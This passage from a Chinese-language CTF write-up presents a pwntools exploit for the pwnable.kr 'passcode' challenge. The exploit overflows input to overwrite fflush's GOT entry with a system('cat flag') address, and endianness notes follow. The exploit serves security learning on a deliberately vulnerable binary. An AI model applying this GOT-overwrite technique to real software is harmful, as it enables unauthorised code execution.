 
#### （3）攻击脚本 ####

    #!/usr/bin/python
    from pwn import *
    context(arch='i386',os='linux')
    local = 0
    if local:
    	re = process('./passcode')
    else:
    	re = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process('./passcode')  #ssh远程链接
    
    re.recv() #一直接收，直到timeout
    
    elf = ELF('./passcode')
    payload = 'a'*96+p32(elf.got['fflush']) #输入100个字符，前96个随便，后面4个字符为GOT中的fflush表项地址：p32(elf.got['fflush'])
    re.sendline(payload) 
    
    sys_addr = 0x080485E3 #login()中system("bin/cat flag")的地址
    print re.recv()
    
    payload2 = str(sys_addr) #由于是"%d"输入，所以就按照正常整数顺序输入即可，只是把十六进制整数变为10进制字符串型整数，0x080485E3 = 134514147D，str(sys_addr)=“134514147”
    re.sendline(payload2)
    re.recv()

注意：


- p32(0xabcdefgh)=\xgh\xeg\xcd\xab，将整数0xabcdefgh变为4字符字符串，是会考虑大小端问题的，0xgh低位在前[低地址],0xab高位在后[高地址]
- 而str(int类似数据)，只是把str(1234)="1234"而已，把某进制的整数变为十进制整数的字符串形式而已。
- %s读取字符，就是按照先读低位，再读高位而已。比如“%s”输入“1234”，就会1放在低地址，4放在高地址
- %d读取字符，会自动做大小端转换，对1234，就是1放在高地址，4放在低地址
- 总之，整数的读取就按照人为的感觉去写数字的位置，字符串形式读取整数值要考虑大小端顺序。

![获取flag](/img/assets/img/pc_attack.jpg)

## 三、babyformat

DEMO来自ISITDTU CTF quals 2018中的一道pwn题，二进制文件为babyformat。
